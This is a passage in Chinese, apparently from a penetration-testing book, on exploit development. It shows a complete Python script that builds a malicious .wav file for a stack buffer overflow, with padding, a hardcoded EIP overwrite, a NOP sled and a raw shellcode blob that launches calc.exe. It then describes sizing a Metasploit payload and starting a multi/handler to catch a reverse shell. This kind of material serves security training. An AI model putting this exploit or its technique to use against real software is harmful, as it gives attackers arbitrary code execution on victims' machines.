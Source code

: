 我们利用`calc.exe`代码进行的新攻击如下所示：

```
#!/usr/bin/env python
import struct
filename="exploit.wav"
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
available_shellcode_space = 320
shell =("\xda\xd3\xd9\x74\x24\xf4\xb8\x2c\xde\xc4\x11\x5a\x29\xc9\xb1"
"\x31\x31\x42\x18\x03\x42\x18\x83\xea\xd0\x3c\x31\xed\xc0\x43"
"\xba\x0e\x10\x24\x32\xeb\x21\x64\x20\x7f\x11\x54\x22\x2d\x9d"
"\x1f\x66\xc6\x16\x6d\xaf\xe9\x9f\xd8\x89\xc4\x20\x70\xe9\x47"
"\xa2\x8b\x3e\xa8\x9b\x43\x33\xa9\xdc\xbe\xbe\xfb\xb5\xb5\x6d"
"\xec\xb2\x80\xad\x87\x88\x05\xb6\x74\x58\x27\x97\x2a\xd3\x7e"
"\x37\xcc\x30\x0b\x7e\xd6\x55\x36\xc8\x6d\xad\xcc\xcb\xa7\xfc"
"\x2d\x67\x86\x31\xdc\x79\xce\xf5\x3f\x0c\x26\x06\xbd\x17\xfd"
"\x75\x19\x9d\xe6\xdd\xea\x05\xc3\xdc\x3f\xd3\x80\xd2\xf4\x97"
"\xcf\xf6\x0b\x7b\x64\x02\x87\x7a\xab\x83\xd3\x58\x6f\xc8\x80"
"\xc1\x36\xb4\x67\xfd\x29\x17\xd7\x5b\x21\xb5\x0c\xd6\x68\xd3"
"\xd3\x64\x17\x91\xd4\x76\x18\x85\xbc\x47\x93\x4a\xba\x57\x76"
"\x2f\x34\x12\xdb\x19\xdd\xfb\x89\x18\x80\xfb\x67\x5e\xbd\x7f"
"\x82\x1e\x3a\x9f\xe7\x1b\x06\x27\x1b\x51\x17\xc2\x1b\xc6\x18"
"\xc7\x7f\x89\x8a\x8b\x51\x2c\x2b\x29\xae")
nop = "\x90"*(available_shellcode_space-len(shell)-len(offset))
exploit = fill + eip + offset + shell + nop
open('exploit.wav', 'w').close()
writeFile = open (filename, "w")
writeFile.write(exploit)
writeFile.close()
```

然后我们运行代码生成新的恶意`.wav`文件，然后将其加载到程序中，查看 EIP 是否被覆盖，以及`calc.exe`二进制文件是否被执行。

![Writing a basic buffer overflow exploit](../Images/image00397.jpeg)

因此，既然已经编写了基本漏洞，我们可以通过这个弱点对其进行更新以建立会话外壳。首先，我们需要确定什么负载大小最适合我们的利用。这个堆栈空间总体上是有限的，所以我们可以尝试在开始时最小化我们的足迹，但正如您将看到的，这并不重要。

您可以通过猜测并使用`msfvenom`和`-s`标志进行检查来生成有效负载，但这既低效又缓慢。您会发现，在生成有效负载时，根据您选择的有效负载类型以及删除错误字符和适当调整包大小所需的编码器，它们可能不兼容。

我们可以通过在`/usr/share/metasploit-framework/tools`目录中运行`payload_lengths.rb`脚本来确定一个好的起点，而不是玩猜测游戏。这些脚本提供了关于有效载荷长度的详细信息，但是我们认为如果可能的话，我们正在寻找小于 300 个字符的小载荷。因此，我们可以针对有效负载的大小运行脚本 awk，针对 Windows 环境中使用的有效负载运行 grep，如下所示：

![Writing a basic buffer overflow exploit](../Images/image00398.jpeg)

该命令输出的结果不到 40，但一些好的选项包括：

![Writing a basic buffer overflow exploit](../Images/image00399.jpeg)

在我们的 Metasploit 实例上，我们启动将接收 shell 的`exploit/multi/handler`。
